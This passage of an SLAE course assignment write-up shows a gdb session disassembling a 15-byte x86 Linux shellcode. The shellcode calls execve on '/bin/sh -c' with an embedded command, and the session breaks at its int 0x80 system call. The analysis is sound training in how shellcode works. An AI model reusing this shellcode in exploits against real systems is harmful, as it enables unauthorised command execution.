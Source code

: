 let's try this again ...

```bash
osboxes@osboxes:~/Downloads/SLAE/Assignment_5$ gdb ./exec --quiet
Reading symbols from /home/osboxes/Downloads/SLAE/Assignment_5/exec...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) break *&code
Breakpoint 1 at 0x804a040
(gdb) run
Starting program: /home/osboxes/Downloads/SLAE/Assignment_5/exec 
Shellcode length:  15

Breakpoint 1, 0x0804a040 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	push   0xb
   0x0804a042 <+2>:	pop    eax
   0x0804a043 <+3>:	cdq    
   0x0804a044 <+4>:	push   edx
   0x0804a045 <+5>:	pushw  0x632d
   0x0804a049 <+9>:	mov    edi,esp
   0x0804a04b <+11>:	push   0x68732f
   0x0804a050 <+16>:	push   0x6e69622f
   0x0804a055 <+21>:	mov    ebx,esp
   0x0804a057 <+23>:	push   edx
   0x0804a058 <+24>:	call   0x804a065 <code+37>
   0x0804a05d <+29>:	das    
   0x0804a05e <+30>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804a061 <+33>:	das    
   0x0804a062 <+34>:	jae    0x804a0cc
   0x0804a064 <+36>:	add    BYTE PTR [edi+0x53],dl
   0x0804a067 <+39>:	mov    ecx,esp
   0x0804a069 <+41>:	int    0x80
   0x0804a06b <+43>:	add    BYTE PTR [eax],al
End of assembler dump.
(gdb) break *0x0804a069
Breakpoint 2 at 0x804a069
(gdb) c
Continuing.

Breakpoint 2, 0x0804a069 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
   0x0804a040 <+0>:	push   0xb
   0x0804a042 <+2>:	pop    eax
   0x0804a043 <+3>:	cdq    
   0x0804a044 <+4>:	push   edx
   0x0804a045 <+5>:	pushw  0x632d
   0x0804a049 <+9>:	mov    edi,esp
   0x0804a04b <+11>:	push   0x68732f
   0x0804a050 <+16>:	push   0x6e69622f
   0x0804a055 <+21>:	mov    ebx,esp
   0x0804a057 <+23>:	push   edx
   0x0804a058 <+24>:	call   0x804a065 <code+37>
   0x0804a05d <+29>:	das    
   0x0804a05e <+30>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804a061 <+33>:	das    
   0x0804a062 <+34>:	jae    0x804a0cc
   0x0804a064 <+36>:	add    BYTE PTR [edi+0x53],dl
   0x0804a067 <+39>:	mov    ecx,esp
=> 0x0804a069 <+41>:	int    0x80
   0x0804a06b <+43>:	add    BYTE PTR [eax],al
End of assembler dump.
```

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment5